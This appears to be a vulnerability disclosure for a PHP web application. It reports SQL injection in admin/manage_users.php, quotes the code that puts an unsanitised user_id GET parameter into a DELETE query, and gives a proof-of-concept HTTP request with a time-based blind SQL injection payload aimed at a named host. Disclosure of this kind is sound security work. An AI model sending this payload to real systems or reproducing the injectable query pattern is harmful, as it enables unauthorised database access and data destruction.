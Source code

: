 ### Vulnerability file address

`admin/manage_users.php` from line 4,The $user_id parameter is controllable, the parameter user_id can be passed through post, and the $user_id is not protected from sql injection, resulting in sql injection

```php
if(isset($_GET['action']) && $_GET['action']!="" && $_GET['action']=='delete')
{
$user_id=$_GET['user_id'];
/*this is delet quer*/
mysqli_query($con,"delete from user_info where user_id='$user_id'")or die("query is incorrect...");
}
```

### POC

```http
GET /admin/manage_users.php?user_id=' OR (SELECT 7316 FROM (SELECT(SLEEP(5)))lqxS)-- nZPW&action=delete HTTP/1.1
Host: www.onsp.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://www.onsp.net/admin/manage_users.php?action=1&user_id=5
Cookie: PHPSESSID=iq8aj0cq3p4rf0s9m3864gtkr0
Upgrade-Insecure-Requests: 1
```

### Attack results pictures

![image-20220721154354881](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220721154354.png)